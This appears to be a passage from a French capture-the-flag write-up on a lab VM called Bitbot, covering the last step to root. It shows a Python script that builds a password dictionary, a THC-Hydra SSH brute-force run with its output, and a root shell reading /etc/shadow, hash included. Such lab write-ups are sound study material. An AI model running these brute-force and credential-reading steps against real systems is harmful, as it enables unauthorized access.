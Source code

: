 Faire rentrer le crapaud dans la bouteille
------------------------------------------

C'était l’occasion de tester [unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check) qui n'a rien retourné de plus que des faux positifs.  

Finalement à grands coups de grep j'ai retrouvé un appel de ce script dans */etc/rc.local* :  

```bash
sh /home/botter/gen.sh
mysql -u root -p'THIS PASSWORD WILL NOT HELP YOU' -Nse 'show tables' bitbot | while read table; do mysql -u root -p'THIS PASSWORD WILL NOT HELP YOU' -e "truncate table $table" bitbot; done
mysql -u root -p'THIS PASSWORD WILL NOT HELP YOU' bitbot < /var/www/dbdump.sql
sudo -u botter python /var/www/bot/bot.py > /dev/null &
exit 0
```

Donc le script est lancé au démarrage de la VM après l'initialisation du réseau. On a donc une des inconnues : l'adresse IP :)  

Il ne reste qu'à générer un dictionnaire avec les possibilités :  

```python
#!/usr/bin/python
fmt = "addr:192.168.1.290.{0}\n"

fd = open("dict.txt", "w")
for i in range(0, 100):
    word = fmt.format(str(i).rjust(2, "0"))
    fd.write(word)
fd.close()
```

On teste ça avec la dernière version de *THC-Hydra* :  

```plain
$ ./hydra -f -l root -P ../dict.txt -e nsr ssh://192.168.1.29
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-06-09 11:17:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 103 login tries (l:1/p:103), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.29   login: root   password: addr:192.168.1.290.89
[STATUS] attack finished for 192.168.1.29 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-06-09 11:17:58
```

Et on applique :  

```plain
botter@Bitbot:~$ su -
Password: 
root@Bitbot:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Bitbot:~# head -1 /etc/shadow
root:$6$YlSK9y.8$uoWD0hXm.UgrLTCnf/fxWt2T67xcZdUKMsvs8jeSQAc5jzzHn46uuTRK4dDijdv9DEZ5XHwO2DAZAQBiYmElE/:16229:0:99999:7:::
```

Hummm c'est goûtu, ça a du retour !

*Published June 09 2014 at 16 11*